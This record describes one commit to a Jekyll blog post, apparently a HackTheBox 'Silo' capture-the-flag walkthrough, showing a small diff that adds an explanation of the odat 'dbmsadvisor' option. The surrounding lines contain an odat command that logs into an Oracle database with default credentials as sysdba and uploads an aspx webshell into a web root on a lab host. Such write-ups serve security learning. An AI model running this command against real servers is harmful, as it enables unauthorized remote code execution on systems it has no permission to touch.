

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-07-Hackthebox-Silo-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 3884 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
WIP silo-walkthrough

```diff
--- a/_posts/2019-11-07-Hackthebox-Silo-Walkthrough.md
+++ b/_posts/2019-11-07-Hackthebox-Silo-Walkthrough.md
@@ -138,11 +138,12 @@ Connected to:
 Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
 
 SQL>
-*{% endhighlight %}
+{% endhighlight %}
 
 For the Oracle penetration testing, we can use a script "<a href="https://github.com/quentinhardy/odat">odat.py</a>".<br>
 It is not installed by default, we have to install with "apt-get"<br>
-Then, upload a aspx webshell which is installed on Kali linux by default.
+Then, upload a aspx webshell which is installed on Kali linux by default.<br>
+To upload a file, we need an option "dbmsadvisor".
 {% highlight shell %}
 root@kali:~# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
 
```
Also changed, not shown: other parts of _posts/2019-11-07-Hackthebox-Silo-Walkthrough.md (+1 -1 lines).
